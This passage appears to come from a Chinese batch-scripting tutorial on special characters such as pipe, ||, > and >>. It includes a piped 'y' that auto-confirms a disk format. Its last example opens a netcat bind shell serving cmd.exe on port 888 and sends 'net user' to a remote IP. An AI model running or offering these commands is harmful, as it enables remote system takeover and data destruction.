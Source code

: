 用过format的都知道，在格盘时要输入y来确认是否格盘，
这个命令前加上echo y并用|字符来将echo y的结果传给format命令

从而达到自动输入y的目的

（这条命令有危害性，测试时请慎重）






#### 5、||
命令连接符号，表示上一条命令执行失败后，才执行||符号后的内容

例子：
```bat
dir z: || dir c:\
```








#### 6、>
重定向符号，将命令的输出结果重定向到其后面的设备中去，后面的设备中的内容被覆盖
这个字符的意思是传递并且覆盖，他所起的作用是将运行的回显结果
传递到后面的范围（后边可以是文件，也可以是默认的系统控制台）

例子：
```bat
dir c:\ >d:\test.txt
```









#### 7、>>
重定向符号，将命令的输出结果重定向到其后面的设备中去，后面的设备中的内容会被增加在后面

例子：
```bat
dir c:\ >>d:\test.txt
dir d:\ >>d:\test.txt
```


补充一个：
<
重定向符,将后面的指定设备的内容,作为前面命令的输入内容

例子:
建立个1.txt文件,内容为net user

nc -v -e cmd.exe -t -l -p 888
nc 192.168.18.5 <1.txt

